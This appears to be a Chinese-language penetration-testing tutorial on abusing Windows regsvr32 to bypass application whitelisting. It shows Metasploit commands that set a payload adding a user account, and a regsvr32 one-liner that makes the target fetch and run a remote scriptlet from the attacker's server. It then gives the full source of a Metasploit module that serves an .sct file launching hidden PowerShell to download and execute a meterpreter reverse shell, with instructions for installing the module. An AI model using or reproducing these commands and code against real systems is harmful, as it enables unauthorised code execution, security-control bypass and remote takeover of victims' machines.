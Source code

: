 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，身体特别重要。

**Regsvr32简介：**

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

**说明：**Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

Windows 2003 默认位置：
`C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe`


**攻击机：**192.168.1.4 Debian
**靶机：** 192.168.1.119 Windows 2003

msf已内置auxiliary版本的regsvr32_command_delivery_server，但是最新版已经无exploit版本regsvr32，文章结尾补充。

**配置攻击机msf：**
```bash
msf auxiliary(server/regsvr32_command_delivery_server) > use auxiliary/server/regsvr32_command_delivery_server
msf auxiliary(server/regsvr32_command_delivery_server) > set CMD net user Micropoor Micropoor /add
CMD => net user Micropoor Micropoor /add
msf auxiliary(server/regsvr32_command_delivery_server) > exploit 

[*] Using URL: http://0.0.0.0:8080/ybn7xESQYCGv
[*] Local IP: http://192.168.1.4:8080/ybn7xESQYCGv
[*] Server started.
[*] Run the following command on the target machine:

regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll 
```
![](media/415719c964de78a36a9cad8e7d273025.jpg)

**靶机执行：**
`regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll`
![](media/d6dba86fd41bcac90db86ecc3dc6e7e7.jpg)

![](media/392c2c955e7d666b5015f30149866cf5.jpg)
![](media/d9c0e792eced1468f86880e42bc28a56.jpg)
![](media/d70caf10069603b0d0bffa73ecbabc29.jpg)

## 附：powershell版Regsvr32

**regsvr32_applocker_bypass_server.rb**
```ruby
##

# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit‐framework

## 

class MetasploitModule < Msf::Exploit::Remote
Rank = ManualRanking 

include Msf::Exploit::Powershell
include Msf::Exploit::Remote::HttpServer 

def initialize(info = {})
super(update_info(info,
'Name' => 'Regsvr32.exe (.sct) Application Whitelisting Bypass Serve r', 'Description' => %q(
This module simplifies the Regsvr32.exe Application Whitelisting Bypass technique.
The module creates a web server that hosts an .sct file. When the user types the provided regsvr32 command on a system, regsvr32 will request the .sct file and then execute the included PowerShell command.
This command then downloads and executes the specified payload (similar to the web_delivery module with PSH).
Both web requests (i.e., the .sct file and PowerShell download and execute) can occur on the same port.
),

'License' => MSF_LICENSE,
'Author' =>
[
'Casey Smith', # AppLocker bypass research and vulnerability discover y(\@subTee)
'Trenton Ivey', # MSF Module (kn0)
],
'DefaultOptions' =>
{
'Payload' => 'windows/meterpreter/reverse_tcp'
},
'Targets' => [['PSH', {}]],
'Platform' => %w(win),
'Arch' => [ARCH_X86, ARCH_X86_64],
'DefaultTarget' => 0,
'DisclosureDate' => 'Apr 19 2016',
'References' =>
[
['URL', 'http://subt0x10.blogspot.com/2016/04/bypass‐application‐whitelisting‐script.html']
]
))
end 

def primer
print_status('Run the following command on the target machine:')
print_line("regsvr32 /s /n /u /i:\#{get_uri}.sct scrobj.dll")
end 

def on_request_uri(cli, _request)
# If the resource request ends with '.sct', serve the .sct file
# Otherwise, serve the PowerShell payload
if _request.raw_uri =~ /\.sct$/
serve_sct_file
else
serve_psh_payload
end
end 

def serve_sct_file
print_status("Handling request for the .sct file from #{cli.peerhost}")
ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl
download_string = Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(get_uri)
download_and_run = "#{ignore_cert}#{download_string}"
psh_command = generate_psh_command_line(
noprofile: true,
windowstyle: 'hidden',
command: download_and_run
)
data = gen_sct_file(psh_command)
send_response(cli, data, 'Content‐Type' => 'text/plain')
end 

def serve_psh_payload
print_status("Delivering payload to #{cli.peerhost}")
data = cmd_psh_payload(payload.encoded,
payload_instance.arch.first,
remove_comspec: true,
use_single_quotes: true
)
send_response(cli,data,'Content‐Type' => 'application/octet‐stream')
end 

def rand_class_id
"#{Rex::Text.rand_text_hex 8}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex12}"
end 

def gen_sct_file(command)
%{<?XML version="1.0"?><scriptlet><registrationprogid="\#{rand_text_a lphanumeric 8}"
classid="{#{rand_class_id}}"><script><![CDATA[ var r = ne wActiveXObject("WScript.Shell").Run("#{command}",0);]]><script></registration></scriptlet>}
end 

end
```

**使用方法：**

copy regsvr32_applocker_bypass_server.rb to /usr/share/metasploit-framework/modules/exploits/windows/misc
![](media/f0b5c59eb47dd53e8780a31320b41113.jpg)

>   Micropoor
